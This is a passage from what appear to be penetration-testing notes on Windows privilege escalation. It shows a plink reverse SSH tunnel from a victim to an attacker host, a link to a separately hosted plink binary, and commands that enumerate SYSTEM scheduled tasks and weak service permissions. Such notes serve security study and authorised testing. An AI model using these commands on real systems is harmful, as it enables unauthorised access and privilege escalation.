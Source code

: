 Then port forward to them using reverse ssh proxy.

**_Putty_**

[Download PuTTY: latest release (0.74)](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

**Plink**

[](https://the.earth.li/~sgtatham/putty/latest/w32/plink.exe)

[plink.exe.bak](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/631dcba9-8676-4da2-aaf1-0162e6f7fce6/plink.exe.bak)

```
plink.exe -l $LUSER -pw $LPASS $LHOST -R $LPORT:127.0.0.1:$RPORT
# L == Attacker
# R == Victim
```

### Vulnerable Scheduled Tasks

```bash
# Victim
schtasks /query /fo LIST /v > schtask.txt

# Attacker
cat schtask.txt | grep "SYSTEM\\|Task To Run" | grep -B 1 SYSTEM
```

### Weak Service Permissions

Thanks to `sushant747` for the following scripts.

### Using WMCI

```bash
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\\windows\\temp\\permissions.txt

for /f eol^=^"^ delims^=^" %a in (c:\\windows\\temp\\permissions.txt) do cmd.exe /c icacls "%a"
```

### sc.exe

```bash
sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt

FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt

FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt

FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```

Then go through it manually with:
